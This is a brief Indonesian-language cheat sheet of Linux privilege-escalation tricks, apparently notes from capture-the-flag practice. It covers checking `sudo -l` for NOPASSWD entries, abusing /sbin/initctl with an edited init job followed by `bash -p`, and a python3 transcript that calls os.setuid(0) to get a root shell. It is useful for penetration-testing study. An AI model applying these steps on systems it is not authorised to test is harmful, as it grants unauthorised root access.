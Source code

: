 # SUDO

buat cek mana yang bisa sudo tanpa password pake ini:

    sudo -l 

contoh output:

    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

# /sbin/initctl

Privesc via /sbin/initctl

edit file `/etc/init/test.conf`
tambahin di dalem script
jalanin perintah: sudo /sbin/initctl start test
kalo dah jalan bakal begini: test start/running, process 11746

sekarang tinggal akses bash begini: bash -p

# python setuid

    nathan@cap:/var/www/html$ python3
    Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
    [GCC 9.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import os
    >>> 
    >>> os.setuid(0)
    >>> os.system('id')
    uid=0(root) gid=1001(nathan) groups=1001(nathan)
    0
    >>> 
    >>> os.system('/bin/bash')